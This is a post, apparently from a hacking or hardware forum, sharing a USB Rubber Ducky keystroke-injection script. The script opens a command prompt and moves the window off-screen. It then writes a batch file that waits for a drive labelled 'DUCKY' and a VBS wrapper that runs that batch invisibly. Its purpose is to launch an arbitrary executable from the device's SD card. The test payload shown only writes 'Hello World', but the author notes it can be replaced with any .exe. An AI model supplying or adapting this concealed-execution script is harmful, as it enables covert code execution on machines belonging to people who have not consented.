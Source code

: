 The following is a payload I have been working on that waits until a drive labeled "DUCKY" is mounted. I have used some of midnightsnake's code in this payload. I have been having some problems with delays so I went a little overboard with the "DELAY 25" codes. The name of the file that is run can be changed to .exe, I am just having it run a batch for testing purposes. The line that says "STRING %myd%\myEXE.bat" is the line that executes the executable.

```
REM Author: overwraith
REM Name: RunEXE.txt
REM Purpose: Run an executable file off of the SD card after it mounts. 
DELAY 4000
REM Using the run command for a broader OS base.
GUI R
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER
DELAY 25
REM Make batch file that waits for SD card to mount. 
REM Delete batch file if already exists
DELAY 25
STRING erase /Q DuckyWait.bat
DELAY 25
ENTER
DELAY 25
STRING copy con DuckyWait.bat
DELAY 25
ENTER
DELAY 25
REM DuckyWait.bat
DELAY 25
STRING :while1
DELAY 25
ENTER
DELAY 25
STRING for /f %%d in ('wmic volume get driveletter^, label ^| findstr "DUCKY"') do set myd=%%d
DELAY 25
ENTER
DELAY 25
STRING if Exist %myd% (
DELAY 25
ENTER
DELAY 25
STRING goto break
DELAY 25
ENTER
DELAY 25
STRING )
DELAY 25
ENTER
DELAY 25
STRING timeout /t 30
DELAY 25
ENTER
DELAY 25
STRING goto while1
DELAY 25
ENTER
DELAY 25
STRING :break
DELAY 25
ENTER
DELAY 25
REM Continue script.
DELAY 25
STRING START %myd%\myEXE.bat
DELAY 25
ENTER
DELAY 25
CONTROL z
DELAY 25
ENTER
DELAY 25
REM MAKE THE VBS FILE THAT ALLOWS RUNNING INVISIBLY.
DELAY 25
REM Delete vbs file if already exists
DELAY 25
STRING erase /Q invis.vbs
DELAY 25
ENTER
DELAY 25
REM FROM: http://stackoverflow.com/questions/289498/running-batch-file-in-background-when-windows-boots-up
DELAY 25
STRING copy con invis.vbs
DELAY 25
ENTER
DELAY 25
STRING CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
DELAY 25
ENTER
DELAY 25
CONTROL Z
DELAY 25
ENTER
DELAY 25
REM RUN THE BATCH FILE
DELAY 25
STRING wscript.exe invis.vbs DuckyWait.bat
DELAY 25
ENTER
DELAY 25
STRING EXIT
ENTER
```

The following is the batch file that is run after the "DUCKY" drive has been mounted. Everything is being run invisibly, so you will need to check for the existence of "Message.txt" which will probably be in "C:\Windows\system32".

```
REM Message.txt
echo Hello Wolrd!!!
echo Hello World!!! > Message.txt
```

The encoders now support the repeat command, so should only be a problem if you are using an old encoder. 

